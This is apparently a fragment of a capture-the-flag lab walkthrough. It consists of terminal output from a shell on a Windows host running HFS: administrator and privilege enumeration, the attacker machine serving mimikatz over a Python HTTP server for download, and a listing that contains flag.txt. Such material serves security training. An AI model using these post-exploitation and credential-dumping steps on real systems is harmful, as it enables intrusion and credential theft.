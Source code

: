 Tab2

```
C:\hfs>whoami
whoami
win-omcnbkr66mn\administrator
C:\hfs>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

```

Tab3

```
root@attackdefense:/usr/share/windows-binaries# cd /usr/share/windows-resources/mimikatz/x64/
root@attackdefense:/usr/share/windows-resources/mimikatz/x64# ls
mimidrv.sys  mimikatz.exe  mimilib.dll
root@attackdefense:/usr/share/windows-resources/mimikatz/x64# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Tab2

```
C:\hfs>cd c:\\
cd c:\\

c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of c:\

09/14/2020  06:52 AM                32 flag.txt
06/22/2023  01:11 AM    <DIR>          hfs
08/22/2013  03:52 PM    <DIR>          PerfLogs
```